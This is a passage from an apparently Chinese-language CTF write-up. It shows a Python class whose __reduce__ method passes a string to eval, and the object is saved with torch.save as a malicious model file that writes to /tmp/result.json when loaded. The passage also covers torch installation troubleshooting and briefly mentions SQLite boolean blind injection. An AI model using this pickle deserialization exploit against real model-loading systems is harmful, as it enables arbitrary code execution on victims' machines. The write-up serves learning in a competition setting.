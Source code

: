 ```python

content.replace('\\', '\\\\').replace("'", "\\'")

# 构造要执行的 python 代码

args = "open('/tmp/result.json', 'w').write('" + content + "')"

# 通过 __reduce__ 方法执行 python 代码

class Exploit(object):
    def __reduce__(self):
        return (eval, (args,))

torch.save(Exploit(), "model_exp.pt", _use_new_zipfile_serialization=False)
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221106210723891.png)

将生成的model_exp.pt上传，就能匹配正确值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221106211047310.png)

刚入门机器学习的，比如我，会遇到由于版本不对无法安装torch的问题，查看自己python支持的版本有三种方法，一个一个试：

1. 
```python
   import pip._internal.pep425tags
   print(pip._internal.pep425tags.get_supported())
```

2. 

```python
	import wheel.pep425tags
    print(wheel.pep425tags.get_supported())
```

3. 

```python
	python -m pip debug --verbose
```



不过最大的问题是torch在32位的python下是无法正常工作的，需要装64位的python，只需要把64位python的系统变量写在32位之上(python和script)。整了一晚上，太坑了

还有一种手法不需要正确的答案，而是用前面定义的参数（也就是正确的n_tags,dim,img_shape）写入到/tmp/result.json，但是后面的json.dump和open也会执行，所以进行了绕过。具体见大佬博客：`https://blog.tonycrane.cc/p/169d9f3d.html#%E4%BA%8C%E6%AC%A1%E5%85%83%E7%A5%9E%E7%BB%8F%E7%BD%91%E7%BB%9C`



最后一个你先别急sqlite注入可以用验证码识别进行布尔盲注，或者手工，但是会慢一点，很多大佬都写过了。



参考链接：`https://exexute.github.io/2019/04/24/how-hacking-with-LaTex/`



